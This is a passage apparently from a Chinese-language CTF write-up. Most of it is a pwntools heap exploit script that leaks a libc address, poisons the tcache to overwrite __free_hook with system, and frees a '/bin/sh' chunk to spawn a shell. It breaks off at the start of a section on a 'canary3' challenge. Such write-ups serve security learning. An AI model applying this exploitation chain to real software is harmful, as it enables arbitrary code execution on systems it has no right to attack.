 ```

def debug():
    gdb.attach(io,"brva 0x1861")
    add(9,16,'aaa')

for i in range(0,8):
    add(i,0x90,'aaaa')

for i in range(0,8):
    delete(7-i)

add(0,0x30,'a'*8)

show(0)
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_base = libc_info - 0x1ebc70
print "libc_base----->" + hex(libc_base)
free_hook=libc_base+libc.sym['__free_hook']
print "free_hook----->" + hex(free_hook)
system=libc_base+libc.sym['system']

add(1,0x68,'aaaa')
add(2,0x68,'bbbb')
add(3,0x10,'/bin/sh\x00')
add(8,0x10,'aaaa')

delete(1)
edit(2,'aaaa')
delete(2)
edit(0,p64(free_hook)) 

one_shot=[0xe6c7e,0xe6c81,0xe6c84]
add(1,0x68,'aaaa')
add(2,0x68,p64(system))

delete(3)

io.interactive() 
```

## canary3

这道题漏洞倒也是很明显，就是一开始绕过md5的部分实在是很服气，如下图的check部分
